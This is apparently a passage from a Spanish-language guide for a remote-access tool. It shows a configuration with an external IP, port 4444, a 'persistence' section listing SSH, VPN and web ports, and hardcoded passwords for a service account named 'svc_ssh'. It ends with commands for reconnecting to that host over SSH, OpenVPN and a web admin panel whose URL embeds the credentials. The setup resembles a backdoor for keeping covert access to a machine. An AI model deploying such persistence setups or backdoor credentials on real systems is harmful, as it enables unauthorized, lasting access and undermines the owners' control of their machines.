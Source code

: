 ```json
        "password": "Web_P@ssw0rd_2024!"
      },
      "features": [
        "remote_access",
        "file_manager",
        "system_monitor",
        "network_tools"
      ]
    }
  ]
}
```

### Configuración de Acceso Remoto

El script utiliza un archivo `config.json` para configurar la IP pública y puertos:

```json
{
  "remote_access": {
    "external_ip": "184.107.168.100",
    "external_port": 4444
  },
  "persistence": {
    "ssh_port": 2222,
    "vpn_port": 1194,
    "web_port": 8080
  },
  "credentials": {
    "ssh_user": "svc_ssh",
    "ssh_password": "SSH_P@ssw0rd_2024!",
    "web_user": "admin",
    "web_password": "Web_P@ssw0rd_2024!"
  }
}
```

### Métodos de Acceso Remoto

Con la persistencia configurada, puedes acceder remotamente usando:

1. **SSH Persistente**:
   ```bash
   ssh svc_ssh@184.107.168.100 -p 2222
   ```

2. **VPN OpenVPN**:
   ```bash
   openvpn --config client.ovpn
   ```

3. **Panel Web**:
   ```bash
   http://admin:Web_P@ssw0rd_2024!@184.107.168.100:8080/admin
   ```
